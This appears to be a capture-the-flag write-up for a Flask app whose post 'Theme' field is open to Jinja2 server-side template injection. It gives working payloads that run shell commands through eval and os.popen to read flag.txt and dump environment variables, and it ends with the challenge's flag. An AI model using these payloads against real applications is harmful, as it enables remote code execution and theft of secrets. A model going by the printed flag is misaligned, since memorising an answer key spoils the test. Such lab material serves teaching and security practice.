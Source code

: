 # CTF Challenge: Flask SSTI Exploitation

## Challenge Description
Participants are provided with a Flask-based web application that allows users to create posts with a `Title`, `Theme`, and `Content`. The application is vulnerable to **Server-Side Template Injection (SSTI)**, which allows attackers to execute arbitrary code on the server.

The goal of the challenge is to exploit the SSTI vulnerability to read the contents of a hidden file named `flag.txt` located on the server.

---

## Challenge Setup
- **Application**: A Flask web application with user authentication, post creation, and profile viewing.
- **Vulnerability**: The `Theme` field in the post creation form is vulnerable to SSTI.
- **Flag**: The flag is stored in a file named `flag.txt` in the root directory of the application.

---

## Vulnerability Details
The vulnerability exists in the `Theme` field of the post creation form. When a user creates a post, the `Theme` field is rendered unsafely in the profile page using Jinja2 templating. This allows attackers to inject malicious Jinja2 templates and execute arbitrary code on the server.

For example, the following payload can be used to perform a simple calculation:
```jinja2
{{ 7 * 7 }}
This will render as 49 in the profile page, confirming the SSTI vulnerability.

Exploitation Steps
Create a Post:

Go to the post creation page (/posting).

Enter a Title and Content.

In the Theme field, enter a malicious payload to exploit the SSTI vulnerability.

Exploit SSTI:

Use the following payload to read the contents of flag.txt:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').popen('cat /path/to/flag.txt').read()") }}
Replace /path/to/flag.txt with the actual path to the flag.txt file.

View the Profile:

Go to the profile page (/users/<user_id>).

The Theme field will display the contents of flag.txt.

Example Payloads
Simple SSTI Test:

jinja2
Copy
{{ 7 * 7 }}
Output: 49

Read Environment Variables:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').environ") }}
Output: A dictionary of environment variables.

Read flag.txt:

jinja2
Copy
{{ self.__init__.__globals__.__builtins__.eval("__import__('os').popen('cat ./flag.txt').read()") }}
Output: The contents of flag.txt.

## FLAG 

CTF{khoya_7na_mzrobin_3tih_flag_a_rabi3a}